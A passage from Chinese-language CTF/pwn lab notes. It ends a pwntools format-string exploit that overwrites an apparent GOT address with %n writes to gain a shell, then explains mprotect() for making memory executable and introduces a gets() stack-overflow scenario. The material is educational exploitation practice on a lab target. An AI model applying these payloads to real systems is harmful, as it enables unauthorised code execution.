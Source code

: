 ```python
# 40 = 64 = 64 - 0 = 64

#第二次写入123b 对应 4667 但是之前以及打印了64字符，也会计算在里面，所以要减去64，最后为4603
# 123b = 4667 = 4667 - 64 = 4603


payload = b"%64X%13$n" + b"%4603X%14$hnAAA" +  p64(0x404018 + 2) + p64(0x404018)

sh.send(payload)

sh.interactive()

```



# mprotect使堆栈可执行



函数原型

`int mprotect(void *addr, size_t len, int prot);`



mprotect()是C语言中的一个系统调用，用于改变进程内存页的访问保护。这些内存页包含了地址范围在区间[addr, addr+len-1]内的任何部分。addr必须对齐到页边界。



prot是以下访问标志的组合：

- PROT_NONE：内存不能被访问。
- PROT_READ：内存可以被读取。
- PROT_WRITE：内存可以被修改。
- PROT_EXEC：内存可以被执行。



场景一：程序关闭了栈保护、地址随机化、使用静态编译，不动态连接glibc，没有system函数和"/bin/sh"字符串，开启了堆栈不可执行。

注意：由于使静态编译，所以所有用到的函数例如puts、gets、mprotect函数都在可执行文件中。

![image-20231123112453918](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231123112453918.png)



程序使用gets函数，存在栈溢出漏洞
